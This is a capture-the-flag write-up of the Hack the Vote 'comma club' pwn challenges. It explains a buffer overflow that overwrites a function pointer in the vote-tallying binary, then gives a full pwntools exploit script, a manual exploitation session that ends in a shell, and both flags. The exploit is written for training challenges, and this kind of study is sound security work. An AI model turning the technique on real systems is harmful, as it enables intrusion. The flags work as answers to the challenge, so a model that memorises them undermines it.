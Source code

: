 ```yaml
---
title: comma club writeup
date: 2024-11-06
description: "writeup of the comma-club and comma-club-revenge challenges from hack the vote ctf"
tags: ["ctf","pwn"]
---
```

# Challenge description

[link to challange](https://hackthe.vote/challenges#Comma%20Club-12)

"We need somone to run our vote tallying machine, and it needs to be someone trustworthy. Apparently there's some problem if a candidate gets too many votes. Shouldn't be a problem for us in Wyoming though."

nc comma-club.chal.hackthe.vote 1337

[file](https://hackthe.vote/files/7bc724cdc53f5e8375258cb26e69b258/comma-club.tar.gz)

# Solution

After inspecting the checksec output, we can see that the binary is not stripped and has all the protections disabled. We can also see that the binary is a 64-bit ELF file.

![checksec](/images/comma/comma_checksec.png)

In program we can add votes for cadidates and check the results. Other fuctionalities are locked with password. After inspecting the binary in IDA we can see that goal is to get to the close voting option ( it executes system("/bin/sh") ).

![ida](/images/comma/comma_goal.png)

When adding votes there is a limit of 584057 votes that we cann add to the candidate. Also when displaying the results, the program checks if the candidate has more than 584057 votes and if so, resets them to 0, but this happens only when we call the function that displays the results.

Candidates are stored in a structure that is innitialized like this:

![candidates](/images/comma/comma_candidate_structure.png)

After experimenting with the program, if we add a lot of votes for a candidate, the program will crash wig SIGSEGV. 

![cand_array](/images/comma/comma_cand_array.png)


Here in debuger we can see how candidates are stored in memory. 
(Name, votes,string representation of votes and poiter to function that displays the results)

Function print_int_with_commas has a buffer overflow vulnerability. We can overwrite the pointer to the function that displays the results. 

![chage_password_function](/images/comma/comma_change_password_function.png)

So we can overwrite last byte of the pointer so it points to change_password_to function. Last byte needs to be 0x39 which is 9 is ASCII. 

Here you can see how the cand_array looks like after overwriting the pointer.

![overwritten_pointer](/images/comma/comma_overflowed.png)

Last step is to determine to what password will be changed. We can see that by inspecting RAX register when we enter function.

![password](/images/comma/comma_new_password.png)

Here is final exploit:

```python
from pwn import *
from binascii import *
PATH = './challenge'
ADDR = 'comma-club.chal.hackthe.vote'
PORT = 1337
elf = context.binary = ELF(PATH)
context.log_level = 'debug'
####
#r = remote(ADDR, PORT)
####
r = process(PATH)
####
# context.terminal = ['wt.exe','wsl.exe']
# r = gdb.debug(args=[elf.path])
###
r.recvuntil(b'> ')
r.sendline(b'1') #add vote option
votes = 1000009
reminder = votes % 584056
reps = votes//584056
for i in range(reps):
    r.recvuntil(b'> ')
    r.sendline(b'1') #select candidate
    r.recvuntil(b'> ')
    r.sendline(b'584056') #add votes
r.recvuntil(b'> ')
r.sendline(b'1')
r.recvuntil(b'> ')
r.sendline(str(reminder).encode()) #add rest of votes
r.recvuntil(b'> ')
r.sendline(b'3') #quit
r.recvuntil(b'> ')
r.sendline(b'2') #print votes
r.recvuntil(b'> ')
r.sendline(b'3') #end vote
r.recvuntil(b'> ')
r.sendline(b'Total') #password
r.interactive() #shell
```

Also program can be exploited like this:

```
Welcome to the Wyoming Vote Tallying Software
Presented by Jeff!
Please select an option:
1) Enter votes for a candidate
2) View current vote totals
3) Close voting and display the winner (requires password)
4) Change password (requires password)
> 1
Select a candidate to add votes to, or 3 to return
1): Wilfred J Lewis
2): Jeanette D Westcott
> 1
Enter the votes to add
> 500009
Select a candidate to add votes to, or 3 to return
1): Wilfred J Lewis
2): Jeanette D Westcott
> 1
Enter the votes to add
> 500000
Select a candidate to add votes to, or 3 to return
1): Wilfred J Lewis
2): Jeanette D Westcott
> 3
Please select an option:
1) Enter votes for a candidate
2) View current vote totals
3) Close voting and display the winner (requires password)
4) Change password (requires password)
> 2
password change sucessful.

Candidate cannot have more votes than the population of Wyoming (584057).
Resetting vote count to 0.
**********************************************************************
* Candidate: Wilfred J Lewis - S                                     *
* Vote Tally:               0                                        *
* [                                                      ] (  0.00%) *
*                                                                    *
**********************************************************************

**********************************************************************
* Candidate: Jeanette D Westcott - T                                 *
* Vote Tally:               0                                        *
* [                                                      ] (  0.00%) *
*                                                                    *
**********************************************************************

Please select an option:
1) Enter votes for a candidate
2) View current vote totals
3) Close voting and display the winner (requires password)
4) Change password (requires password)
> 3
Please enter the password
> Total
Correct!
Voting is now closed! The winner is Wilfred J Lewis with 0 votes!
This program will now exit.
cat flag
flag{w3lc0me_2_TH3_2_c0mm4_c1ub}
```

This exploit happend to work also on second part of the challange called comma-club-revenge (this challange could be also exploited by sending null bytes as password to terminate strncpy).

Second flag:
```
flag{W3lc0Me_t0_TH3_gr34t3r_th4N_0n3_c0Mm4_c1Ub}
```









